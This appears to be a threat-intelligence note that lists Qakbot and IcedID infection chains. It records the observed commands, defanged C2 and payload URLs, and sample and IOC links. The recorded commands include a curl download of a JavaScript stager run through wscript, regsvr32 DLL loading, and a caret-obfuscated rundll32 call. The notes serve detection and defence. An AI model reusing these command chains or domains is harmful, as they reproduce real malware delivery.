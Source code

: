 
#Qakbot - bb - url > .zip > .xlsb > .dll

CreateDirectoryA C:\Hefagga

CreateDirectoryA C:\Hefaggad\Ukdfaovkga

http://metroberrylocalmarketing.]com/7z8b/0.html

regsvr32 /s calc

regsvr32 C:\Hefaggad\Ukdfaovkga\Buuefafa.dll

https://bazaar.abuse.ch/sample/d3788e69dd125449af3d985de93701c49cef0658bc98e3b449185f86cbee027d/

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_BB_05.10.2022.txt

### .html > .zip > .iso > .lnk > .png > .dll

[#IcedID](https://twitter.com/hashtag/IcedID?src=hashtag_click) - .html > .zip > .iso > .lnk > .png > .dll
https://twitter.com/pr0xylife/status/1575903382505590784


#IcedID - .html > .zip > .iso > .lnk > .png > .dll

cmd.exe /c start ru^n^d^l^l3^2 2cdb83ee-c76c-4d7c-b9bc-2f4aab08f773.-Tf,PluginInit

rundll32 2cdb83ee-c76c-4d7c-b9bc-2f4aab08f773.-Tf,PluginInit

https://bazaar.abuse.ch/sample/0ab12d65800f3e7e6089fe3c534911f0b42d9175bcf955e937edd39e8bb2c13a/

c2
http://triskawilko.]com

IOC's
https://github.com/pr0xylife/IcedID/blob/main/icedID_30.09.2022.txt



###  url > .zip > .lnk > curl > wscript > curl > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - bb - url > .zip > .lnk > curl > wscript > curl > .dll
https://twitter.com/pr0xylife/status/1570064310923304962



#Qakbot - bb - url > .zip > .lnk > curl > wscript > curl >  .dll

MD "C:\ProgramData\A_Np\fcA"

curl.exe -o %ProgramData%\A_Np\fcA\GCk.js ap2web.]com/MwS/13.html

wscript.exe GCk.js

paritoys.]com/9nD/130.html

regsvr32 REPORT_9MyMg_.SRm.IH.dll

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_BB_14.09.2022.txt

